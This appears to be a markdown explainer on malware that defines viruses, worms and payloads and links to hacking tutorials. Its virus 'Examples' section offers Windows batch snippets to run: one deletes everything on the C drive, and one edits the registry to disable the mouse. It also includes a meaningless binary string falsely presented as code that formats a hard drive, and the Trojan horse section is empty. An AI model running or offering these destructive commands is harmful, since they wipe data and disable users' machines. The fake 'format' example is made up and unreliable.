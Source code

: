 # Malicious Software (Malware)
Malicious software is any software used to disrupt computer operation, gather sensitive information, or gain access to private computer systems. Malware is sometimes used broadly against government or corporate websites to gather guarded information, or to disrupt their operation in general. However, malware is often used against individuals to gain information such as personal identification numbers or details, bank or credit card numbers, and passwords. Left unguarded, personal and networked computers can be at considerable risk against these threats. (These are most frequently defended against by various types of [firewall](http://en.wikipedia.org/wiki/Firewall_(computing)), anti-virus software, and network hardware).

![Malware by categories](http://upload.wikimedia.org/wikipedia/commons/thumb/e/ec/Malware_statics_2011-03-16-en.svg/600px-Malware_statics_2011-03-16-en.svg.png)

## Computer Virus
A Computer virus is a self-replicating program that spreads by inserting copies of itself into other executable code, documents or the boot sector of the hard drive. Viruses often perform some type of harmful activity on "infected" hosts, such as stealing hard disk space or CPU time, accessing private information, corrupting data, rendering the computer useless and so on. However, not all viruses carry a destructive payload or attempt to hide themselves - the defining characteristic of viruses is that they are self-replicating computer programs which install themselves without user consent.  
  

#### Examples
This examples are based on Windows machines but be careful if you are going to run it on Mac or Linux.  
  
*File format: *.bat* 
  
**Delete all the content of C Drive**
```
@Echo off
Del C:\*.*|y
```
  
**Disable Mouse**
```
rem ---------------------------------
rem Disable Mouse
set key="HKEY_LOCAL_MACHINE\system\CurrentControlSet\Services\Mouclass"
reg delete %key%
reg add %key% /v Start /t REG_DWORD /d 4
rem ---------------------------------
```
  
**Format Hard Drive**
```
01001011000111110010010101010101010000011111100000
```

## Computer Worm
A computer worm is a standalone malware computer program that replicates itself in order to spread to other computers. Often, it uses a computer network to spread itself, relying on security failures on the target computer to access it. Unlike a computer virus, it does not need to attach itself to an existing program. Worms almost always cause at least some harm to the network, even if only by consuming bandwidth, whereas viruses almost always corrupt or modify files on a targeted computer.  
Many worms that have been created are designed only to spread, and do not attempt to change the systems they pass through. However, as the [Morris worm](http://en.wikipedia.org/wiki/Morris_worm) and [Mydoom](http://en.wikipedia.org/wiki/Mydoom) showed, even these "payload free" worms can cause major disruption by increasing network traffic and other unintended effects. A "payload" is code in the worm designed to do more than spread the worm—it might delete files on a host system (e.g., the ExploreZip worm), encrypt files in a [cryptoviral extortion](http://en.wikipedia.org/wiki/Cryptovirology) attack, or send documents via e-mail. A very common payload for worms is to install a [backdoor](http://en.wikipedia.org/wiki/Backdoor_(computing)) in the infected computer to allow the creation of a "zombie" computer under control of the worm author. Networks of such machines are often referred to as botnets and are very commonly used by spam senders for sending junk email or to cloak their website's address. Spammers are therefore thought to be a source of funding for the creation of such worms, and the worm writers have been caught selling lists of IP addresses of infected machines.

*Hex dump of the [Blaster Worm](http://en.wikipedia.org/wiki/Blaster_(computer_worm))*  
![Blaster Worm](http://upload.wikimedia.org/wikipedia/commons/e/ec/Virus_Blaster.jpg)


## Trojan horse


## Payload
Payload is the cargo of a [data transmission](http://en.wikipedia.org/wiki/Data_transmission). It is the part of the transmitted data which is the fundamental purpose of the transmission, to the exclusion of information sent with it (such as headers or metadata, sometimes refferred to as overhead data) solely to facilitate delivery. In the analysis of malicious software such as worms, viruses and Trojans, it also refers to the software's harmful results. Examples of payloads include data destruction, messages with insulting text or spurious e-mail messages sent to a large number of people.

*Veli Payload Delivery with psexec*
![Veli Payload Delivery with psexec](http://i.ytimg.com/vi/SgsEAzGrT4k/maxresdefault.jpg)

## Resources
- [Malware](http://en.wikipedia.org/wiki/Malware)
- [Hack Like a Pro: Metasploit for the Aspiring Hacker, Part 3 (Payloads)](http://null-byte.wonderhowto.com/how-to/hack-like-pro-metasploit-for-aspiring-hacker-part-3-payloads-0157032)
- [Why Hackers Write Computer Viruses](http://gizmodo.com/5827405/why-hackers-write-computer-viruses)
- [Hacking With Notepad](http://www.instructables.com/id/Hacking-With-Notepad)
- [Who are the people behind the online threats?](http://www.bullguard.com/bullguard-security-center/internet-security/internet-threats/hackers-virus-writers-and-internet-criminals.aspx)
